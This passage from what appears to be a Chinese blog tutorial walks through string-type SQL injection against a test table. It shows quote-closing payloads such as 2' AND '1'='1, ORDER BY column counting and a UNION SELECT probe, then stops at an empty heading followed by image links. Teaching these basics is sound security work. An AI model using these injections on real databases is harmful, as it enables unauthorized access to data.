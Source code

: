 ## 字符型注入

我们默认测试的地址为：

```
SELECT * FROM test.new WHERE type=2
```

![][28]

先来一个`AND 1=1`：

![][29]

再来个`1=2`：

![][30]

发现都没有输出，也没有报错，那怎么办呢？我们分析一下字符：原来的语句是：

```
SELECT * FROM test.new WHERE type='xxx'
```

现在我们要查询`type=2`的同时还要把`And 1=1`加进去：

```
SELECT * FROM test.new WHERE type='2' AND 1=1'
```

后面还有一个单引号，所以这里最适合的就是用字符型的把后面单引号闭合掉：

```
SELECT * FROM test.new WHERE type='2' AND '1'='1'
```

也就是我们的查询数据为：`2' AND '1'='1`，这样就把`2`查询了也把`AND 1=1`加进去了：

![][31]

其他的就和上面的数值型注入差不多了，比如`order by`：

```
SELECT * FROM test.new WHERE type='2' ORDER BY 1
```

![][32]

Union：

```
SELECT * FROM test.new WHERE type='2' UNION SELECT 1,2,3,4 FROM DUAL
```

![][33]

## 搜索型注入


[1]: https://img.soapffz.com/archives_img/2019/07/28/archives_20190728_155136.png
[2]: http://shack2.org/
[3]: https://github.com/shack2
[4]: https://img.soapffz.com/archives_img/2019/07/28/archives_20190728_151559.png
[5]: https://img.soapffz.com/archives_img/2019/07/28/archives_20190728_152058.png
[6]: https://img.soapffz.com/archives_img/2019/07/28/archives_20190728_152136.png
[7]: https://img.soapffz.com/archives_img/2019/07/28/archives_20190728_152254.png
[8]: https://img.soapffz.com/archives_img/2019/07/28/archives_20190728_152356.png
[9]: https://img.soapffz.com/archives_img/2019/07/28/archives_20190728_152430.png
[10]: https://img.soapffz.com/archives_img/2019/07/28/archives_20190728_152628.png
[11]: https://img.soapffz.com/archives_img/2019/07/28/archives_20190728_152745.png
[12]: https://img.soapffz.com/archives_img/2019/07/28/archives_20190728_152824.png
[13]: https://img.soapffz.com/archives_img/2019/07/28/archives_20190728_152956.png
[14]: https://img.soapffz.com/archives_img/2019/07/28/archives_20190728_153102.png
[15]: https://img.soapffz.com/archives_img/2019/07/28/archives_20190728_153214.png
[16]: https://img.soapffz.com/archives_img/2019/07/28/archives_20190728_153252.png
[17]: https://img.soapffz.com/archives_img/2019/07/28/archives_20190728_154033.png
[18]: https://img.soapffz.com/archives_img/2019/07/28/archives_20190728_154125.png
[19]: https://img.soapffz.com/archives_img/2019/07/28/archives_20190728_154159.png
[20]: https://img.soapffz.com/archives_img/2019/07/28/archives_20190728_154712.png
[21]: https://img.soapffz.com/archives_img/2019/07/28/archives_20190728_154752.png
[22]: https://img.soapffz.com/archives_img/2019/07/28/archives_20190728_155438.png
[23]: https://img.soapffz.com/archives_img/2019/07/28/archives_20190728_155751.png
[24]: https://img.soapffz.com/archives_img/2019/07/28/archives_20190728_155849.png
[25]: https://img.soapffz.com/archives_img/2019/07/28/archives_20190728_155941.png
[26]: https://img.soapffz.com/archives_img/2019/07/28/archives_20190728_160040.png
[27]: https://img.soapffz.com/archives_img/2019/07/28/archives_20190728_160515.png
[28]: https://img.soapffz.com/archives_img/2019/07/28/archives_20190728_161136.png
[29]: https://img.soapffz.com/archives_img/2019/07/28/archives_20190728_161157.png
[30]: https://img.soapffz.com/archives_img/2019/07/28/archives_20190728_161218.png
[31]: https://img.soapffz.com/archives_img/2019/07/28/archives_20190728_161256.png
[32]: https://img.soapffz.com/archives_img/2019/07/28/archives_20190728_161325.png
[33]: https://img.soapffz.com/archives_img/2019/07/28/archives_20190728_161348.png
[34]: https://img.soapffz.com/archives_img/2019/07/28/archives_20190728_161518.png
[35]: https://img.soapffz.com/archives_img/2019/07/28/archives_20190728_161552.png
[36]: https://img.soapffz.com/archives_img/2019/07/28/archives_20190728_161631.png
[37]: https://img.soapffz.com/archives_img/2019/07/28/archives_20190728_161653.png
[38]: https://img.soapffz.com/archives_img/2019/07/28/archives_20190728_162943.png
[39]: https://img.soapffz.com/archives_img/2019/07/28/archives_20190728_163100.png
[40]: https://img.soapffz.com/archives_img/2019/07/28/archives_20190728_163130.png
[41]: https://img.soapffz.com/archives_img/2019/07/28/archives_20190728_163716.png
[42]: https://img.soapffz.com/archives_img/2019/07/28/archives_20190728_163754.png
[43]: https://img.soapffz.com/archives_img/2019/07/28/archives_20190728_163204.png
[44]: https://img.soapffz.com/archives_img/2019/07/28/archives_20190728_163827.png